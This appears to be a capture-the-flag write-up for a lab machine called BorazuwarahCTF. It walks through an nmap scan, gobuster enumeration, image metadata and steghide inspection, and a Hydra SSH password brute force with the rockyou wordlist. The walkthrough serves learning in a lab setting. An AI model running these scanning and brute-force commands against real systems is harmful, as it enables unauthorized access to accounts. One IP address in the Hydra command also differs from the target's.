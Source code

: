 # BorazuwarahCTF

## Port Enumeration

To begin our scan, we use the Nmap tool in our discovery phase. As we can see, we have the following open ports:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

![Descripción de Borazu](Imagenes/Borazu_1.png)

The first thing that comes to mind is to analyze the web page in search of strange links or any clues. As I don't find anything, I decide to investigate if there are hidden files or directories. For this, I'm going to use the Gobuster application.

```shell
gobuster dir -u http://172.17.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```

## Examining the Egg Image
It doesn't find anything, so the only thing I can think of is that the Kinder egg image might have some secret, including information in the metadata or an embedded file.

To find out, I'm going to use the Exiftool and Steghide tools, including the script created in the other section to perform a brute force attack on the image.

![[Pasted image 20240808103308.png]]

We see that both in the description and in "Title" a username or password appears. Additionally, using the script to extract a possible embedded file, we extract the file "secreto.txt" with the following message.

![[Pasted image 20240808104002.png]]

## Intrusion

Finally, everything points to the need for a brute force attack on the SSH service with the username "borazuwarah" and a password dictionary.

For this, I'm going to use the Hydra tool

```bash
hydra -l borazuwarah -P rockyou.txt -t 10 -w 1 ssh://172.0.17.2
```

![[Pasted image 20240808105649.png]]

Hydra obtains the password for that given user, so we can now connect to the SSH service.
